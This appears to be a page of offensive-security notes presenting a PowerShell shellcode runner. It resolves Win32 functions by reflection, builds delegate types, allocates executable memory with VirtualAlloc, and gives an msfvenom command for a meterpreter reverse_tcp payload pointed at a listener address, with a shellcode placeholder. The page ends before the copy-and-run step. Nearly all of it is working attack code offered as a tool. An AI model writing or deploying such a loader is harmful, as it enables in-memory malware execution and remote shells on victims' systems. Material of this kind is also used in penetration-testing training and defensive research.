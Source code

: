 ```powershell
    [System.Reflection.CallingConventions]::Standard, $func).
    SetImplementationFlags('Runtime, Managed')

	# sets up the invoke method
	$type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
    SetImplementationFlags('Runtime, Managed')
	
    return $type.CreateType()
}
```

`LookupFunc()` function + `getDelegateType()` function. Put it all together, to create a simple PowerShell Shellcode Runner v2

The complete code 

```powershell
# leveraging UnsafeNativeMethods
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
    @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
    [System.MulticastDelegate])
    
	$type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
    [System.Reflection.CallingConventions]::Standard, $func).
    SetImplementationFlags('Runtime, Managed')
    
	$type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
    SetImplementationFlags('Runtime, Managed')
	
    return $type.CreateType()
}

# Allocate executable memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), 
  (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.123 LPORT=443 -f ps1
[Byte[]] $buf = SHELLCODE_GO_HERE

# Copy shellcode to allocated memory
```